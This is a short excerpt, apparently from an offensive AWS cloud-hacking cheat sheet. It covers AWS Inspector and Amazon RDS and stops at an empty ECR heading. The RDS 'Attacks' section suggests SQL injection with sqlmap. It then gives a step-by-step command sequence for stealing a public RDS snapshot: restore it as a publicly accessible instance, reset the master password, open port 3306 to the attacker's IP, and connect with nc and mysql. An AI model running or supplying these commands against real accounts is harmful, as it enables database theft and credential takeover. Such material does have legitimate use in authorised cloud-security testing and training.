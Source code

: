 ## **AWS Inspector**

```
# Amazon Inspector is an automated security assessment service that helps improve the security and compliance of applications deployed on AWS.
```

## **AWS RDS**

### **Basic**

```
aws rds describe-db-instances
```

### **Attacks**

```
# Just like a MySQL, try for sqli!
# Check if 3306 is exposed
# Sqlmap is your friend ;)

# Stealing RDS Snapshots
- Searching partial snapshots
aws rds describe-db-snapshots --include-public --snapshot-type public --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup
- Restore in instance
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier recoverdb --publicly-accessible --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup --availability-zone us-east-1b
- Once restored, try to access
aws rds describe-db-instances --db-instance-identifier recoverdb
- Reset the master credentials
aws rds modify-db-instance --db-instance-identifier recoverdb --master-user-password NewPassword1 --apply-immediately
    - Takes some time, you can check the status:
    aws rds describe-db-instances
- Try to access it from EC2 instance which was restored
nc rds-endpoint 3306 -zvv    
- If you can't see, you may open 3306:
    - In RDS console, click on the recoverdb instance
    - Click on the Security Group
    - Add an Inbound rule for port 3306 TCP for Cloudhacker IP
 - Then connect it
 mysql -u <username> -p -h <rds-instance-endpoint>

```

## ECR

### Info

